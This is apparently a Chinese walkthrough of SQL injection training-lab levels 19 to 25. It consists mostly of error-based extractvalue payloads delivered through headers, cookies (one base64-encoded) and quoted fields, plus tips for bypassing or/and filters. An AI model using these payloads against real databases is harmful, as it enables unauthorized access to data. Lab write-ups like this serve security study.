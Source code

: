 - 第十九关

```
'and extractvalue(1,concat(0x7e,(select @@version),0x7e)) and '1'='1
```

- 第二十关

![](https://ae01.alicdn.com/kf/H2875b8c3ca7244b7828d6e8714c5b565e.jpg)

```
cookies:Dumb' and extractvalue(1,concat('~',user(),'~')) #
```
![](https://ae01.alicdn.com/kf/Hee729c1c85a043db827212c2bb15d788l.jpg)

- 第二十一关

![](https://ae01.alicdn.com/kf/Hea1fb581ac37430ab72b0596e12c06e51.jpg)

```
YWRtaW4xJylhbmQgZXh0cmFjdHZhbHVlKDEsY29uY2F0KDB4N2UsKHNlbGVjdCBAQGJhc2 VkaXIpLDB4N2UpKSM=
```

![](https://ae01.alicdn.com/kf/H542cd58a78364287877a84227429999eu.jpg)

- 第二十二关

```
admin1"and extractvalue(1,concat(0x7e,(select database()),0x7e))#
```

![](https://ae01.alicdn.com/kf/H542cd58a78364287877a84227429999eu.jpg)

- 第二十三关(基于错误无注释)

```
?id=1' and extractvalue(1,concat('~',user(),'~')) or '1'='1
```
![](https://ae01.alicdn.com/kf/Hc9f4864827fe4086a0f440d15a2aa6d7x.jpg)

- 第二十四关(二次注入)

![](https://ae01.alicdn.com/kf/Hdc7d9dc8d5f74cdab476c7fb9fc814eej.jpg)

![](https://ae01.alicdn.com/kf/H2fbe6413ca9c4a7e8d77577d9d51a104J.jpg)

- 第二十五关(过滤or、and）
1. 大小写:Or,OR,oR
2. 编码,hex,urlencode
3. 添加注释/*or*/
4. 利用符号 and=&&  or=||

```
id=1'|| extractvalue(1,concat(0x7e,database()))--+
```
![](https://ae01.alicdn.com/kf/H33c0681536194843a0d48bf092dde652D.jpg)
